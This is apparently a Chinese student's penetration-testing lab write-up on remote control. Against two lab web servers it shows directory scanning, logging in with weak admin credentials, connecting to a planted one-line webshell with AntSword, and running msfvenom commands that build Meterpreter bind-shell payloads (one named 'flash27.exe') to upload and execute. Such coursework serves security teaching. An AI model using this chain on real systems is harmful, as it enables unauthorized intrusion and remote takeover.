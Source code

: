 ```yaml
---
title: 实验三--远程控制技术
category: 学习笔记
tags: 
  - 网络渗透测试技术
  - 远程控制
published: 2023-12-03
permalink: /archives/nyyrztx3/
---
```

## 实验目的

1、学会使用主流的远控软件,比如msf.学会使用webshell管理工具对一句话木马进行连接.

## 实验任务

1、进入web系统后台后写入一句话木马,然后用中国蚁剑进行连接

2、用中国蚁剑进行连接后,使用msf进行远控

## 实验步骤

### 广诚在线视频 10.100.0.99

御剑扫描，发现敏感文件

![image-20240714194140257](./images/202407142108134.png)

使用浏览器打开是乱码的，火狐自带修复工具，修复后即可找到管理页面和登录的账号密码

![image-20240714194153388](./images/202407142108135.png)

登录后台后，点击工具à模板管理àdefaultàHome，编辑index.tpl，在这里应该是要自己加上一句话木马的，但是环境是公共环境，已经有人添加了进去，所以我们是可以直接利用的

![image-20240714194158919](./images/202407142108136.png)

连接成功

![image-20240714194223962](./images/202407142108137.png)

生成msf正向马

msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=12345 -f elf > linuxshell27

![image-20240714194237714](./images/202407142108138.png)

然后使用蚁剑上传木马

 ![image-20240714194245731](./images/202407142108140.png)

启用蚁剑的虚拟终端，然后运行木马

![image-20240714194215936](./images/202407142108141.png)

在攻击机上启用msf去连接木马，但是不是root权限

![image-20240714194314505](./images/202407142108142.png)

### 广诚小学 10.100.0.49

登录网站，发现有一个administrator用户名，扫描目录找到后台登录

![image-20240714194323866](./images/202407142108143.png)

使用dirsearch找到后台登录地址

![image-20240714194328076](./images/202407142108144.png)

使用administrator/ administrator登录，然后再专题管理中对最下面的专题进行编辑

![image-20240714194332109](./images/202407142108145.png)

进入编辑页面看到已有马，所以直接，使用蚁剑进行连接

![image-20240714194335791](./images/202407142108146.png)

蚁剑连接成功

![image-20240714194339615](./images/202407142108147.png)

根据目录结构判断是Windows环境

![image-20240714194344535](./images/202407142108148.png)

使用msf生成Windows的正向木马

msfvenom -p windows/meterpreter/bind_tcp LPORT=12345 -f exe -o flash27.exe

 ![image-20240714194348490](./images/202407142108149.png)

利用蚁剑上传

![image-20240714194352291](./images/202407142108150.png)

然后运行木马

![image-20240714194400586](./images/202407142108151.png)

msf进行监听

![image-20240714194406423](./images/202407142108152.png)
